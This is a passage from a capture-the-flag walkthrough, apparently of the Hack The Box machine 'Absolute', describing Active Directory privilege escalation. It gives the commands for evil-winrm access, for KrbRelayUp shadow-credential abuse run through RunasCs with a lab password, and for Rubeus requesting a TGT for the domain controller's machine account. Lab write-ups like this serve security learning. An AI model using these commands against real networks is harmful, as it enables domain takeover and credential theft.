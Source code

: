 ![](https://i.imgur.com/oWA6QYP.png)

```powershell
evil-winrm -i dc.absolute.htb -r ABSOLUTE.HTB
```

![](https://i.imgur.com/6wPhpQZ.png)

We can run winpeas on the machine since defender is disabled and on running we'll see that it shows system is vulnerable to krbrealyUP

![](https://i.imgur.com/TiWLKJN.png)

![](https://i.imgur.com/h08vCy7.png)

We can abuse this by following this post 

https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html
https://github.com/Dec0ne/KrbRelayUp

To comiple krblreayup we need vs studio, after compiling we can transfer the executable on the target machine

![](https://i.imgur.com/kIWdAb1.png)

By following the blog post we can abuse shadowcredentials through Krbrelayup, on running that it wasn't able to execute probably we need other cls ID

![](https://i.imgur.com/z5GZxHg.png)

We can check for differenet clsids from here https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/

![](https://i.imgur.com/Y2XIBGG.png)

![](https://i.imgur.com/JCge5UU.png)


This time we get an access denied so we have gotten the clsid correct but it isn't accessible so probably we'll need a different user to run this exe with like m.lovegod. But issue was running exe with a different user was pain as I tried Invoke-Command and some Runas scripts which didn't worked but the one which did work was `RunasCS` 

https://github.com/antonioCoco/RunasCs
```bash
RunasCs.exe m.lovegod 'AbsoluteLDAP2022!' -d absolute.htb 'C:\Users\winrm_user\Documents\KrbRelayUp.exe full -m shadowcred --ForceShadowCred -cls 3c6859ce-230b-48a4-be6c-932c0c202048' -l 9
```

![](https://i.imgur.com/ALa3zV3.png)

Now using Rubeus to get TGT for `DC$` machine account with the generated certificate 

```bash
.\Rubeus.exe asktgt /user:DC$ /certificate:cert /password:password /enctype:AES256 /nowrap
```
